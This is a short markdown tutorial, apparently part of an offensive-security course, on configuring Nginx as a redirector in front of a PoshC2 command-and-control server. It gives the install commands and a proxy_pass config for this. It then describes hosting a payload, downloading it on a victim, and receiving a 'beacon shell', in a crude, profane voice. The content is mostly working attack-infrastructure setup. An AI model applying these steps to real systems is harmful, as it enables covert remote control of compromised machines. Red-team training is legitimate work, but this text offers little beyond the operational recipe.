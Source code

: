 # Setting up Nginx with TCP proxy 

1. First off this shit is stupid, nginx only knows how to deal with HTTP traffic and beacon traffic can sometimes be encrypted by default making it hard for Nginx to deal with. There for we are going to have to not only set up our `proxy_reverse` but also configure TCP on the server if we want COMs to work all the way with out the use of ssl certs
2. To start lets install Nginx
    ```bash
    sudo apt install nginx 
    ```
3. Now lets create a config file for pass through connections 
    ```bash 
    sudo vi /etc/nginx/conf.d/lp_proxy.conf
    ```
4. Paste the follwing in `lp_proxy.conf`
    ```
    server {
        listen 80;
        #NOTE: This line is so payloads can be downloaded over port 80 using Powershell
        server_name <IP of Proxy Server>;

        location / {
            proxy_pass https://<posh-server IP>:<Posh bind port>;
        }
    }
    ```

5. Now lets reload Nginx with the new config files
    ```bash 
    sudo systemctl restart nginx.service
    ```
6. From here, create a poshc2 project with the bind port set to 80, and in `payloadcomshost` set your `http://proxy-ip`

7. Host your payload however and download on victim 

8. tada you have a beacon shelley, fuck you.

## Important Nginx File Locations 
- `/var/www/html` – Website content as seen by visitors.
- `/etc/nginx` – Location of the main Nginx application files.
- `/etc/nginx/nginx.conf` – The main Nginx configuration file.
- `/etc/nginx/sites-available` – List of all websites configured through Nginx.
- `/etc/nginx/sites-enabled` – List of websites actively being served by Nginx.
- `/var/log/nginx/access.log` – Access logs tracking every request to your server.
- `/var/log/ngins/error.log` – A log of any errors generated in Nginx.

## [Return to course page](README.md) or [Go To Next Step](step3-persistence.md)
